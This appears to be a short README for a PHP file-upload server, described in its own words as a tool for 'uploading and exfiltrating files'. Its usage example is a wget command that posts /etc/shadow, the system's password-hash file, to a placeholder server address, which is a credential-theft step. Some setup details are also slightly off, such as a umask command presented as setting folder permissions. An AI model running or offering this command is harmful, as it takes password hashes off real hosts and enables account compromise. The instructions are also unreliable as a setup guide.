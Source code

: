 # PHP File Uploader
A secure and efficient solution for uploading and exfiltrating files using PHP.

## Installation
1. Host the "upload.php" file on your server.

```
php -S <server_ip>:8080 -t .
```
2. Create the "upload" directory and configure its settings.

```
mkdir upload
```
3. Set the appropriate permissions for the "upload" folder (write-only).

```
cd upload && umask 555
```
4. Optionally, change the ownership of the "upload" folder to enhance security.

```
useradd dummy && chown dummy upload
```

## Usage
To upload a file to the server, use the following method as an example:

```
wget --post-file=/etc/shadow <server_ip>/upload.php?file=shadow
```

Replace `<server_ip>` with the IP address of your server and adjust the file path as needed.